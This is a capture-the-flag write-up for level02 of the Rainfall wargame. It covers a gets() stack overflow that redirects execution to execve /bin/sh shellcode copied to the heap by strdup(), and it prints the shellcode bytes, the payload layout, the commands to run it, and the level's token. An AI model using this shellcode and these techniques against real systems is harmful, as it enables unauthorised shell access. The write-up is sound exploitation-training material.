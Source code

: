 # level02

1. Decompilation with Ghidra

    - Decompile the `level2` binary with Ghidra
    - The binary contains a function `p()` that:
      - Calls `gets()` to read user input into a 76-byte buffer
      - Checks if the return address starts with `0xb0` (stack protection)
      - Calls `puts()` to display the buffer
      - Calls `strdup()` to duplicate the buffer on the heap

2. Analysis of the vulnerability

    The decompiled code is:

    ```c
    void p(void) {
      uint unaff_retaddr;
      char local_50 [76];
      
      fflush(stdout);
      gets(local_50);        // Reads without size limit!
      if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
        printf("(%p)\n",unaff_retaddr);
        _exit(1);           // Prevents return to stack
      }
      puts(local_50);
      strdup(local_50);     // Copies buffer to heap!
      return;
    }
    ```

    The vulnerability:
    - **Buffer overflow** via `gets()` allows overwriting the return address
    - **Stack protection** prevents returning to stack addresses (0xb0...)
    - **`strdup()`** allocates our buffer on the **heap** (not protected!)

3. Finding the heap address

    Using GDB to find where `strdup()` allocates:

    ```bash
    gdb ./level2
    (gdb) break *0x0804853d    # Break after strdup() call
    (gdb) run <<< "AAAABBBBCCCCDDDD"
    (gdb) print/x $eax         # EAX contains the returned heap address
    (gdb) x/s $eax
    ```

    Or with ltrace:

    ```bash
    echo "AAAABBBBCCCCDDDD" | ltrace ./level2 2>&1 | grep strdup
    # Output: strdup("AAAABBBBCCCCDDDD") = 0x0804a008
    ```

    The heap address is: **0x0804a008**

4. Shellcode selection

    ```assembly
    xor ecx, ecx              ; ECX = NULL (no argv array needed)
    mul ecx                   ; EAX = 0, EDX = 0
    push ecx                  ; Push NULL terminator
    push 0x68732f2f           ; Push "//sh"
    push 0x6e69622f           ; Push "/bin"
    mov ebx, esp              ; EBX = pointer to "/bin//sh"
    mov al, 0x0b              ; EAX = 11 (execve syscall)
    int 0x80                  ; System call
    ```

    Shellcode bytes (21 bytes):

    ```
    \x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
    ```

5. Payload structure

    ```
    [Shellcode 21 bytes][Padding 59 bytes][Heap address 4 bytes]
    |                   |                  |
    |                   |                  +-> 0x0804a008 (little-endian)
    |                   +-> NOPs to reach 80 bytes
    +-> execve("/bin//sh", NULL, NULL)
    ```

    Total: 21 + 59 + 4 = 84 bytes

6. Exploitation

    Create the exploit on the Rainfall machine:

    ```bash
    cat > /tmp/exploit.py << 'EOF'
    [...python code...]
    EOF
    ```

    Generate and use the payload:

    ```bash
    python /tmp/exploit.py > /tmp/payload.txt
    (cat /tmp/payload.txt; cat) | ./level2
    ```

    This spawns a shell with level3 privileges:

    ```bash
    cat /home/user/level3/.pass
    ```

7. Token discovered

    The token is: `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
